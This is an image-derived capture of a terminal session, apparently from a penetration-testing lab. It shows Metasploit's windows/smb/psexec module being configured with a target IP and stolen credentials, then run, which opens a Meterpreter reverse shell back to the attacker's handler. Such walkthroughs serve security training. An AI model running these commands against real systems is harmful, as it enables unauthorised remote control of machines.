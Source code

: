 ```bash
      3   MOF upload
      4   Command

Check supported:
  No

Basic options:
  Name                  Current Setting  Required  Description
  ----                  ---------------  --------  -----------
  SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
  SERVICE_DISPLAY_NAME                   no        The service display name
  SERVICE_NAME                           no        The service name
  SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read
                                                   /write folder share

  Used when connecting via an existing SESSION:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION                   no        The session to run this module on

  Used when making a new connection via RHOSTS:

  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  RHOSTS                      no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                        asploit.html
  RPORT      445              no        The target port (TCP)
  SMBDomain  .                no        The Windows domain to use for authentication
  SMBPass                     no        The password for the specified username
  SMBUser                     no        The username to authenticate as

Payload information:
  Space: 3072

Description:
  This module uses a valid administrator username and password (or
  password hash) to execute an arbitrary payload. This module is similar
  to the "psexec" utility provided by SysInternals. This module is now able
  to clean up after itself. The service created by this tool uses a randomly
  chosen name and description.

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.75.223
RHOSTS => 10.10.75.223
msf6 exploit(windows/smb/psexec) > set SMBUSER ballen
SMBUSER => ballen
msf6 exploit(windows/smb/psexec) > set SMBPASS Password1
SMBPASS => Password1
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.10.25.237:4444 
[*] 10.10.75.223:445 - Connecting to the server...
[*] 10.10.75.223:445 - Authenticating to 10.10.75.223:445 as user 'ballen'...
[*] 10.10.75.223:445 - Selecting PowerShell target
[*] 10.10.75.223:445 - Executing the payload...
[+] 10.10.75.223:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.75.223
[*] Meterpreter session 1 opened (10.10.25.237:4444 -> 10.10.75.223:53132) at 2025-08-07 13:44:07 +0100

```